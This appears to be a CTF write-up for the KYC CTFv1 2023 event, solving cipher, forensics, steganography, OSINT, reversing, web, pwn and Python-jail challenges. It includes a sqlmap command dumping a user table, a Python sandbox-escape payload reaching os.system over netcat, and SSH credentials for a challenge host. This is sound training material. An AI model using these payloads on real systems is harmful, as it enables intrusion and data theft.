


# Know Your Click KYC CTFv1 - 2023

## Table of Contents
- [Challenges](#challenges)
    - [Cryptography](#cryptography)
        - [Bite Bite](#bite-bite)
        - [The Vertical Inifinity](#the-vertical-inifinity)
        - [On the Fence](#on-the-fence)
        - [Symbols](#symbols)
        - [Climber](#climber)
    - [Forensics](#forensics)
        - [Being Holmes](#being-holmes)
        - [Locate me](#locate-me)
        - [Trace the Culprit](#trace-the-culprit)
    - [Steganography](#steganography)
        - [1nv1s1bl3](#1nv1s1bl3)
        - [The Quick Response](#the-quick-response)
    - [OSINT](#osint)
        - [Hunter](#hunter)
        - [Lost & Found](#lost--found)
    - [Reverse Engineering](#reverse-engineering)
        - [PyPy](#pypy)
        - [Keith Orders a Pizza](#keith-orders-a-pizza)
    - [Web](#web)
        - [The biggest lie is Hidden](#the-biggest-lie-is-hidden)
        - [CCTV](#cctv)
    - [PWN](#pwn)
        - [Not something you might like](#not-something-you-might-like)
    - [Sandbox](#sandbox)
        - [Pyjail](#pyjail)


## Challenges

### Cryptography

#### Bite Bite
- Points: 82
- Description: `Hint is in the name itself !`
- Encoded String: `4B 00 65 00 6D 00 63 00 68 00 6F 00 6B 00 68 00 61 00 6E 00 61 00 6B 00 68 00 61 00 6B 00 65 00 6A 00 61 00 6E 00 61 00`

Resources/Scripts:
- [CyberChef](https://gchq.github.io/CyberChef/#recipe=Find_/_Replace(%7B'option':'Regex','string':'00'%7D,'',true,false,true,false)From_Hex('Auto'))

Solution:
- It's in Hex for, so use FromHex in CyberChef to decode and remove dots.
- Then wrap it in the flagformat KYC{}.
- Flag: `KYC{Kemchokhanakhakejana}`


#### The Vertical Inifinity
- Points: 147

Resources/Scripts:
- [Python Script](./files/vertical_infinity/solve.py)
- [vertical_infinity.txt](./files/vertical_infinity/vertical_infinity.txt)

Solution:
- Decode from Octal,we'll get decimal numbers. 
- Convert from decimal to characters
- We'll get this text: `John likes to travel alot. He liked Indian culture so he decided to settle down in Mumbai, India and took a job in paramedics. Soon after he settled, a terrorist group planted a bomb in his area. Being the only brave, John have to defuse the bomb in time. But looks like the defusal code for the bomb has been encrypted. All the letters have been transformed into numbers by their place in the alphabets (a-> 1, b-> 2, c->3, and so on), " " going to 27 and "_" going to 28. Can you decrypt the following cipher? (4, 15, 12, 12, 1, 18, 6, 12, 1, 7, 15, 16, 5, 14, 2, 18, 1, 3, 5, 4, 5, 6, 21, 19, 1, 12, 28, 4, 5, 12, 20, 1, 3, 12, 15, 19, 5, 2, 18, 1, 3, 5)`
- This is just simple substitution of characters and numbers.
- I have written a python script to solve this challenge which takes input from file `vertical_inifinity.txt`.
-  After substituting we'll get a text like this `dollarflagopenbracedefusal_deltaclosebrace` where `defusal_delta` is the text we need.
- Flag: `KYC{defusal_delta}`

#### On the Fence
- Points: 185
- Encoded Text: `VAGRRVBRJRPUZVEGGNUFN JANRUIEOFYXABRIENXLBNPGRXLFLRYNXBEVGRVZPHR NORLGRARFGGURZNFGAZLF`

Resources/Scripts:
- [Affine Cipher](https://www.dcode.fr/affine-cipher)
- [Redefence Cipher](https://www.dcode.fr/redefence-cipher)

Solution:


- Dcode.fr's Cipher Identifier helps us.
- We get the same text when we decode using both Affine Cipher and ROT13.
- Obtained Text: `INTEEIOEWECHMIRTTAHSA WNAEHVRBSLKNOEVRAKYOACTEKYSYELAKORITEIMCUE ABEYTENESTTHEMASTNMYS`
- Used this text to identify again.

- Tried Skip Cipher but no good output.
- Tried Redefence Cipher and got this output.
- Output: `IWANNABETHEVERYBESTLIKENOONEEVERWASKEYTOCATCHTHEMKEYISMYREALTASKTOTRAINTHEMISMYCAUSE`
- Here `TOCATCHTHEM` is surrounded by `KEY`, so tried `KYC{TOCATCHTHEM}` and got incorrect.
- After giving underscores, I tried `KYC{TO_CATCH_THEM}` and its correct.
- Flag: `KYC{TO_CATCH_THEM}` 

#### Symbols
- Points: 210
- Description: `Oh, my eyes, my eyes! People still can solve this kind of cryptography? Mathematicians should love this one!`

Resources/Scripts:
- [Symbols Website](https://link.springer.com/content/pdf/bbm:978-3-319-23796-1/1.pdf)



Solution:
- These are the Symbols used in Maths.
- After some research, I got a [website](https://link.springer.com/content/pdf/bbm:978-3-319-23796-1/1.pdf) with the symbols and the types.
- After arranging, I got this: `{ \Pi \ltimes \aleph y \_ \wp \infty \therefore \heartsuit \_ \Lsh \aleph \Theta \eth \Xi \}`
- Taking the first letter of those names forms `Play_with_LaTeX`.
- So the flag is `KYC{Play_with_LaTeX}`.

#### Climber
- Points: 285
- Description: `"We are not lost, we're right here somewhere on this Earth. Wait, why do I feel like I'm being watched from family of short mountains?" (Don't forget to wrap the flag with KYC{} )`
- Encoded Text: `ahplkslgqoyzgkkhhx`
- Key: `gybnelite`

Resources/Scripts:
- [KeyToMatrix.py](./files/Climber/key_to_matrix.py)

Solution:
- The challenge description says its based on mountains which means it is definately the *Hill Cipher*.
- For hill cipher we need the key in matrix form but we have key in plain text.
- We need to convert the text to matrix form.I'm lazy to write the code, So I made ChatGPT to write it. I have mentioned the script in the Resources section.
- We get this matrix after executing the script.
- Matrix: 
```
[[ 6 24  1]
 [13  4 11]
 [ 8 19  4]]
```
- By using this matrix and encoded text in Dcode.fr's Hill Cipher, we get the flag.

- Flag: `KYC{thehillshaveeyes}`

### Forensics

#### Being Holmes
- Points: 70
- Description: 
`The best thing about Sherlock Holmes was he could observe. He could find out exactly the needed thing hidden around him in a plain sight. No body can be like Sherlock.. Or can anyone?`


Resources/Scripts:
- [AperiSolve.com](https://www.aperisolve.com/)

Solution:
- We are given a JPG file.
- Upon looking the exifdata, I found the flag.

- Flag: `KYC{swiper_no_swiping}`

#### Locate me
- Points: 148
- Description: `Our forensics experts have acquired the following traffic using a MITM during a pentesting. Can you help us locating the file extracted by hackers?`

Resources/Scripts:
- [CaptureFile](./files/LocateMe/infiltration.pcapng)
- [WireShark](https://www.wireshark.org/#download)

Solution:
- This a network analysis challenge.
- The challenge description says that we have to the file name which attacker extracted from the infected server. 
- We can see some protocols in the capture such as HTTP,TCP,SMB,FTP,etc..
- There are 2 protocols which are mainly for file transfer: SMB & FTP.
- I checked FTP but no good results.
 
- But when I checked SMB Protocol, I got the file name which is `PSEXESVC.EXE`.
 
- So the flag is: `KYC{PSEXESVC_EXE}`

#### Trace the Culprit
- Points: 246
- Description: `One of the Systems on EvilCorp. which was used in pen-testing services, has been compromised. However, the Digital forensics team has managed to collect some logs from that machine to investigate further. Can you help us find the CVE used by the attacker.`

Resources/Scripts:
- [Link](https://example.com)

Solution:
- We are given the log files dump of infected pc.
- After looking into those, I found that, syslog contains all the commands that are executed in the console and the processes created by them.
- By searching `cve` in syslog, we get `cve-2021-22555` which is what we are looking for.
 
- Flag: `KYC{cve-2021-22555}`

### Steganography

#### 1nv1s1bl3
- Points: 128
- Description: `I am john cena.`

Resources/Scripts:
- [ZeroWidthEncodeDecode](https://330k.github.io/misc_tools/unicode_steganography.html)
- [EncodedFile](./files/invisible/1nv1s1bl3.txt)

Solution:
- The challenge name suggests that the flag is invisible/hidden.
- After looking into the file, the number of characters is more than the count of the characters.
- This is probably the ZeroWidth Character Steganography.
- Copy all the text and goto [this](https://330k.github.io/misc_tools/unicode_steganography.html) link and paste it in right side and click decode. We'll get the flag.
 
- Flag: `KYC{1_Am_j0hn_c3na}`

#### The Quick Response
- Points: 150
- Description: `You know what to do!`


Resources/Scripts:
- [Link](https://example.com)

Solution:
- Just scan all the QRs and concat all the outputs you get, It will form the flag.
- Flag: `KYC{nice_try_but_this_isn't_the_flag}`

### OSINT

#### Hunter
- Points: 50
- Description: `John Jayder was seen infiltrating a network using an open-source mobile penetration testing platform for Android devices, based on Kali Linux. Find out which platform he used to hack the network.`

Solution:
- Just search for `open-source mobile penetration testing platform for Android devices, based on Kali Linux` and you'll get the answer.
- Flag: `KYC{nethunter}`

#### Lost & Found
- Points: 300
- Description: `Sherlock found a lost smartphone on his trip to US , but he is not able to figure out the real owner of the device. Can you help him locate the owner and find a way to contact him.`



Resources/Scripts:
- [FCC ID Info](https://www.fcc.gov/oet/ea/fccid)

Solution:
- Main Objective: To find the email associated with the lost phone.
- FCC ID: `RWO-RZ350259`
- In United States, We can find the FCC ID info in [this](https://www.fcc.gov/oet/ea/fccid) link.
 
- Fill the FCC ID and click search.
- Click any of those buttons as in the image.
 
- We can see the email associated with the phone.
 
- Flag: `KYC{johnsen.tia@razerzone.com}`

### Reverse Engineering

#### PyPy
- Points: 122
- Description: `ewww Python!`

Resources/Scripts:
- [Pyc Decompiler](https://www.toolnb.com/tools-lang-en/pyc.html)
- [Pyc File](./files/PyPy/pl.pyc)

Solution:
- It is a Python Compiled File.
- Just decompile with the help of [this](https://www.toolnb.com/tools-lang-en/pyc.html) online decompiler.
 
- Every character in flag is in the form of `ord(char)` and its stored as `'67,111,111,108,80,121,116,104,111,110,72,97,99,107,101,114'`.
- Just convert it to string and you'll get the flag.
- Code to convert:
 ```
l=[67,111,111,108,80,121,116,104,111,110,72,97,99,107,101,114]
for i in l:
    print(chr(i),end='')
 ```
- Flag: `KYC{CoolPythonHacker}`

#### Keith Orders a Pizza
- Points: 196
- Description: `Keith’s friend wants to get a pizza. When Keith asked their friend what topping he should get, their friend wrote the following code down on a napkin, and told them that the solution would be his favorite topping. See if you can help Keith break the code.`

Resources/Scripts:
- [Challenge Code](./files/KeithPizza/topping.java)
- [Solution Code](./files/KeithPizza/decode.py)

Solution:
- This is a basic java code where there are 2 functions used the encode the text.
- I have written the python code to reverse that function and find the flag and mentioned it in Resources/Scripts.
- Flag: `KYC{anchovies}`

### WEB

#### The biggest lie is Hidden
- Points: 136
- Description:
```
Having heard from industry insiders that the Internet is the “next big thing” HV Inc. has just launched a new website. The company has wisely decided to retain your assistance in identifying any vulnerabilities on their website. Keep in mind that at this stage portions of the site are still in development, and the HV Inc amateur development team has hidden a secret key in their admin login.

We managed to find the login page but not able to get the key.

You can access the login page here: https://hackersvilla.xyz/sqli
```

Resources/Scripts:
- [Link](https://example.com)

Solution:
- It is a SQL Injection Challenge which is based on blind SQL Injection.
- Open the webpage and try to login with any credentials and save that request file.
- Then with sqlmap, it's easy for us.
- Command to run: `sqlmap -r lie --batch -D epiz_33445770_KYC -T USERS --dump`
- `lie` is the request file. `epiz_33445770_KYC` is the database name and `USERS` is the table name.
- You'll get the creds of the admin.
 
- Login with the creds and you'll get the flag.
 
- Flag: `KYC{easy_injection}`


#### CCTV
- Points: 174
- Description: `Edward snowden hired you for a very secretive job to hack into a top secret facility. While hacking you come across a CCTV camera footage that was blocked with a password. The facility's defense system tracked you and blocked your IP permanently. Thankfully you were able to download the index file that asked the password. Knowing password will give you the flag.`

Resources/Scripts:
- [HTML File](./files/CCTV/index.html)
- [Solution Code](./files/CCTV/solution.py)

Solution:
- We are given a HTML file which is protected by password.
```
const checkPassword = () => {
  const v = document.getElementById("password").value;
  const p = Array.from(v).map(a => 0xCafe + a.charCodeAt(0));

  if(p[0] === 52037 &&
     p[6] === 52081 &&
     p[5] === 52063 &&
     p[1] === 52077 &&
     p[9] === 52077 &&
     p[10] === 52080 &&
     p[4] === 52046 &&
     p[3] === 52066 &&
     p[8] === 52085 &&
     p[7] === 52081 &&
     p[2] === 52077 &&
     p[11] === 52066) {
    window.location.replace(v + ".html");
  } else {
    alert("Wrong password!");
  }
}
```
- It is a JavaScript code which converts every character of the password to ASCII and adds `0xCafe` to it and checks the value with the given values.
- We can easily reverse this code and get the flag.
- Code to reverse:
```
p=[52037,52077,52077,52066,52046,52063,52081,52081,52085,52077,52080,52066]
for i in p:
    print(chr(i-0xCafe),end='')
print()
```
- Flag: `KYC{GoodPassword}`

### Pwn

#### Not something you might like
- Points: 288
- Description: `I codded something irrelevant the other day, well nothing crashed, sometimes life's okay. We'll all float on, anyways.`

Resources/Scripts:
- [Challenge File](./files/PWN/float_on.c)

Solution:
- By understading the code we can find that there is a website link in the challenge file.
 
- Website link: `hackersvilla.xyz/flag.txt`
- I got this response:
```
KYC{YOUcantS33me}

root@167.172.66.188

The most powerfull thing in this world is shell!
```
- `KYC{YOUcantS33me}` is not the flag.
- We are given the ssh host and user and the password is `YOUcantS33me`
- Login with the creds and open `flag.txt`, you'll get the flag.
 
- Flag: `KYC{john_cena}`

### Sandbox

#### Pyjail
- Points: 250
- Description: `Break the jail :)`

Resources/Scripts:
- [Link](https://example.com)

Solution:
- We are given a sandboxed python shell where we can't import any modules.
- We are only allowed to use already imported builtin modules which are not blacklisted.
- By using this command we can list all the classes and functions in the module.
```
print(().__class__.__bases__[0].__subclasses__())
```
- We can see that there is a `_wrap_close` class in the `os` module.
- The parent of this class is `os`.
- By using this, we'll execute commands.
- First we'll get the index of `_wrap_close` class in the list but using this command:
```
print([entry.__name__ for entry in ().__class__.__bases__[0].__subclasses__()].index("_wrap_close"))
```
- Then we can execute os commands by using this command:
```
print([].__class__.__mro__[1].__subclasses__()[137].__init__.__globals__['system']('ls'))
```
- We can see that there is a `Flag.txt` file.
- Now we can read the file by using this command:
```
print(open('Flag.txt').read())
```
- Complete Commands:
```
┌──(kali㉿kali)-[~/Desktop]
└─$ nc 23.23.44.100 5000
>>> print([entry.__name__ for entry in ().__class__.__bases__[0].__subclasses__()].index("_wrap_close"))
137
>>> print([].__class__.__mro__[1].__subclasses__()[137].__init__.__globals__['system']('ls'))
Dockerfile
Flag.txt
build.sh
jail.py
0
>>> print(open('Flag.txt','r').read())
KYC{Y0u_Br3k4n_th3_j@1l}
```

- Flag: `KYC{Y0u_Br3k4n_th3_j@1l}`